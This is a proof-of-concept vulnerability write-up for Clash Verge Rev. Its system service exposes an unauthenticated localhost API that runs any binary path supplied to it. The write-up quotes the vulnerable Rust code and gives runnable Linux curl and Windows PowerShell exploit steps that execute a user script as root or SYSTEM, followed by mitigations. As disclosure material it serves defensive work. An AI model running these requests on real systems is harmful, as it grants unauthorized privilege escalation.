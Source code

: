 # clash-verge-rev-privilege-escalation-poc
## Vulnerability Title

[Clash-Verge-Rev](https://github.com/clash-verge-rev/clash-verge-rev) unauthorized API leads to local privilege escalation

## Description

Clash Verge Rev forces the installation of system services([clash-verge-service](https://github.com/clash-verge-rev/clash-verge-service)) by default and exposes key functions through the unauthorized HTTP API `/start_clash`, allowing local users to submit arbitrary bin_path parameters and pass them directly to the service process for execution, resulting in local privilege escalation.

- **Affected Systems**: Clash Verge Rev<=v2,2,3 (Linux/Windows/macOS)

## Technical Details

1. The service process listens on 127.0.0.1:33211 via the Warp framework, and no authentication is implemented for the `/start_clash` interface

[clash-verge-service/src/service/mod.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/mod.rs#L100)

```rust
// Line 29
const LISTEN_PORT: u16 = 33211;
// Line 77~80
let api_start_clash = warp::post()
    .and(warp::path("start_clash"))
    .and(warp::body::json())
    .map(move |body: StartBody| wrap_response!(COREMANAGER.lock().unwrap().start_clash(body)));
// Line 98~107
warp::serve(
    api_get_version
        .or(api_start_clash)
        .or(api_stop_clash)
        .or(api_stop_service)
        .or(api_get_clash)
        .or(api_exit_sys),
)
.run(([127, 0, 0, 1], LISTEN_PORT))
.await;
```

2. `start_clash()` calls `start_mihomo()` and `start_mihomo()` calls the function `process::spawn_process(bin_path, &args, log) `passing in bin_path. `spawn_process()` calls `std::Command::new(command)` to execute the command

[clash-verge-service/src/service/core.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/core.rs#L156)

```rust
let pid = process::spawn_process(bin_path, &args, log)?;
```

[clash-verge-service/src/service/process.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/process.rs#L8)

```rust
let child = Command::new(command)
    .args(args)
    .stdout(log)
    .stderr(Stdio::null())
    .spawn()?;
```

## Proof of Concept

### Linux

1. Create a malicious script: (normal user)

```bash
echo -e '#!/bin/bash\nid > /root/pwned' > /home/user/pwn  
chmod +x /home/user/pwn 
```

2. Send an unauthenticated request:

```bash
curl -XPOST http://127.0.0.1:33211/start_clash \
     -H 'Content-Type: application/json' \
     -d '{
       "bin_path":"/home/user/pwn",
       "config_dir":"/tmp",
       "config_file":"/dev/null",
       "log_file":"/tmp/x"
     }'
```

![](./1.png)

3. Verify privilege escalation:

```bash
sudo cat /root/pwned
```

![](./2.png)

![](./3.png)

### Windows

pwn.bat:

```bat
@echo off
whoami > C:\Users\xxx\Desitop\pwned.txt
```

test.ps1:

```powershell
$apiUrl = "http://127.0.0.1:33211/start_clash"
$headers = @{ "Content-Type" = "application/json" }
$body = @{
    bin_path    = "C:\Users\xxx\Desktop\pwn.bat"
    config_dir  = "C:\Windows\Temp"
    config_file = "NUL"
    log_file    = "C:\Windows\Temp\exploit.log"
} | ConvertTo-Json

Invoke-RestMethod -Uri $apiUrl -Method Post -Headers $headers -Body $body
```

![](./4.png)

## Mitigation

1. Logic Fix: Remove user control over `bin_path`; use a hardcoded allowlist
2. Run the service under a non-privileged user and grant necessary capabilities via `setcap`
